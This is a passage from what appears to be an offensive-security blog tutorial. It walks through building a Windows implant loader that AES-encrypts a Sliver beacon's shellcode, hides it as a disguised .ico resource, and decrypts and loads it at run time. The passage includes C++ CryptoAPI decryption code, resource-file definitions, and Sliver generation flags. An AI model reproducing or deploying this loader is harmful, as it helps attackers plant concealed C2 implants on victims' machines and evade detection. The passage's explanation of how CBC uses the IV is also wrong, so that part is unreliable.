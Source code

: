 Then at run time, we decrypt it using the native Windows Crypto API functions:

```CPP
int AESDecrypt(char * payload, unsigned int payload_len, char * key, size_t keylen) {
        HCRYPTPROV hProv;
        HCRYPTHASH hHash;
        HCRYPTKEY hKey;

        if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)){
                return -1;
        }
        if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)){
                return -1;
        }
        if (!CryptHashData(hHash, (BYTE*)key, (DWORD)keylen, 0)){
                return -1;              
        }
        if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0,&hKey)){
                return -1;
        }

        if (!CryptDecrypt(hKey, (HCRYPTHASH) NULL, 0, 0, payload, &payload_len)){
                return -1;
        }

        CryptReleaseContext(hProv, 0);
        CryptDestroyHash(hHash);
        CryptDestroyKey(hKey);

        return 0;
}
```
We have all the pieces ready for encrypting and decrypting but how do we tell our app to compile with this as a resource? We will need two additional files for this. ```resources.h``` will hold a simple declaration ```#define FAVICON_ICO 100``` and ```resources.rc``` will hold the following:

```CPP
#include "resources.h"
FAVICON_ICO RCDATA resource.ico
```

Retrieving our encrypted payload from the resources section can be done with the below:

```CPP
res = FindResource(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA);
resHandle = LoadResource(NULL, res);
payload = (char *) LockResource(resHandle);
payload_len = SizeofResource(NULL, res);
```

Something like [this can be used to then compile the code from the CLI.](https://gist.github.com/SolomonSklash/e267247e0006ebce999ea2c8a347bbb1) Or you can just use VisualStudios GUI.

Putting this altogether, to generate our Sliver payload we need to start a listener and output a beacon to a shellcode format. Feed this through the script and output it encrypted to another ico resource file, which we'll then include in the resources section of our implant. The process of doing this turned out to be much more complicated than I anticipated. Over the course of building this, I removed the IV declaration because I thought the AES library documentation said that if you don't supply one, it will auto generate one for you. All fine and good in my mind. That was until I went to decrypt at run time and for some reason the first block of bytes would be decrypted incorrectly. The issue turned out to be that I was mistaken and by not supplying an IV at encryption time, when it came to decrypt, the CBC cipher couldn't do the first block. But this also highlights the issue with CBC. Other ciphers will derive the IV for subsequent blocks from the first blocks decryption, but with CBC only the first block gets XOR'd with the IV and that's it. Once past this, the shellcode decoded properly in memory but I still wasn't seeing a connection back. The final issue here turned out to be that the Shikata Ga Nai encoder needed to be disabled at implant generation time with the flag ```--disable-sgn``` in Sliver.
